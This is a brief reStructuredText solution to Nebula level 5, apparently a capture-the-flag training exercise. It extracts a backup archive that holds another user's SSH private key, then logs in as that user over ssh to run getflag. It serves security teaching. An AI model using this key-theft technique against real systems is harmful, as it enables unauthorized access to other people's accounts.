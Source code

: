 .. _nebula5:

.. role:: bash(code)
	  :language: bash

Nebula 5
========

Basic Information
-----------------


**Home Page** https://exploit-exercises.com/nebula/level05/

Solution
--------

Un-tar into level05 home

.. code-block:: bash

   tar xvzf backup-19072011.tgz -C /home/level05/
   .ssh/
   .ssh/id_rsa.pub
   .ssh/id_rsa
   .ssh/authorized_keys
   ssh flag05@localhost
.. note::

   Password is not asked since we have a key

   :bash:`$getflag`
